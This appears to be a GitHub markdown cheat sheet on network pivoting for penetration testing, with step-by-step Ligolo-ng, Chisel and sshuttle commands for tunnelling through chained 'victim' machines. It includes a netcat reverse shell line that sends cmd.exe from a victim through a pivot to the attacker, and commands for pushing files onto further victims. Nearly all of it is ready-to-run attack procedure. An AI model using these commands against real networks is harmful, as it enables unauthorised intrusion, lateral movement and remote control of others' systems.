 # Pivot 

Here we will look at some ways we can use to pivot within a network and thus be able to jump to other machines.

![Pivot Example](pivot1.jpg)

## Ligolo-ng

**Network 1**
````
- Attacker Machine -
$ ./server -selfcert
$ sudo ip tuntap add user kali mode tun <ligolo>
$ sudo ip link set <ligolo> up

- Victim 1 (PC 1) -
./agent -connect <IP-Attacker>:11601 -ignore-cert

- Attacker Machine -
(Ligolo): Type session and select the <session1>
(Ligolo): Type ifconfig to see the IP of Network 1
$ sudo ip route add <IP-Network>/<Subnet> dev <ligolo1>
(Ligolo): Start
````

**Network 2**
````
- Attacker Machine -
$ sudo ip tuntap add user kali mode tun <ligolo-double>
$ sudo ip link set <ligolo-double> up
On <session1> (Ligolo): listener_add --addr 0.0.0.0:11601 --to 127.0.0.1:11601 --tcp

- Victim 2 (PC 2) -
> agent.exe -connect <IP-Victim1(PC1)>:11601 -ignore-cert

- Attacker Machine -
(Ligolo): Type session and select the <session2>
(Ligolo): Type ifconfig to see the IP of Network 2
$ sudo ip route add <IP-Network>/<Subnet> dev <ligolo-double>
On <session1> (Ligolo2): tunnel_start --tun ligolo-double
````

**Network 3**
````
- Attacker Machine -
$ sudo ip tuntap add user kali mode tun <ligolo-triple>
$ sudo ip link set <ligolo-triple> up
On <session2> (Ligolo): listener_add --addr 0.0.0.0:11601 --to 127.0.0.1:11601 --tcp

- Victim 3 (PC 3) -
> agent.exe -connect <IP-Victim2(PC2)>:11601 -ignore-cert (IP of Second Machine)

- Attacker Machine -
(Ligolo): Type session and select the <session3>
(Ligolo): Type ifconfig to see the IP of Network 3
$ sudo ip route add <IP-Network>/<Subnet> dev <ligolo-triple>
On <session3> (Ligolo): tunnel_start --tun ligolo-triple
````

The process is the same for other networks.

**Reverse Shell and Transfer Files**

The process we are going to see here can be applied to any machine on any network.
Imagine that we want to obtain a reverse shell from Victim 3 (PC3).
````
- Attacker Machine -
$ nc -lvp <port-reverse>
On <session2> (Ligolo): listener_add --addr 0.0.0.0:<port-reverse> --to 127.0.0.1:<port-reverse> --tcp

- Victim 3 (PC 3) -
nc.exe <IP-Victim2(PC2)> <port-reverse> -e cmd.exe 
````

Imagine you want to transfer a file from the <Attacker-Machine> to Victim 4 (PC4).
````
- Attacker Machine -
$ python3 -m http.server <port-server>
On <session3> (Ligolo): listener_add --addr 0.0.0.0:<port-server> --to 127.0.0.1:<port-server> --tcp

- Victim 4 (PC 4) -
> Invoke-WebRequest -Uri http://<IP-Victim3(PC3)>:<port-server>/<file> -OutFile <file>
````

## Chisel 

We can also do this with chisel using socks5.
````
- Attacker Machine -
$ ./chisel server -v -p <PORT> --reverse
$ ./chisel server -v --reverse

- Victim 1 (PC 1) -
> chisel_windows.exe client <IP-Attacker>:<PORT> R:socks

- Attacker Machine -
$ edit /etc/proxychains.conf -> sock5 (127.0.0.1 1080)
$ proxychains ping <Netowrk1-Machines>

Tip:
$ proxychains /bin/bash
Everything done within this shell automatically goes through proxychains and the tunnel created.
You no longer need to add proxychains at the beginning.
````

## SSH Pivoting with Sshuttle
````
$ sudo apt-get install sshuttle
$ sudo sshuttle -r <user>@<IP-Victim1> <IP-Network1>/<subnet> -v 
````
With this command, sshuttle creates an entry in our iptables to redirect all traffic to the <IP-Network1>/<subnet> network through the pivot host.
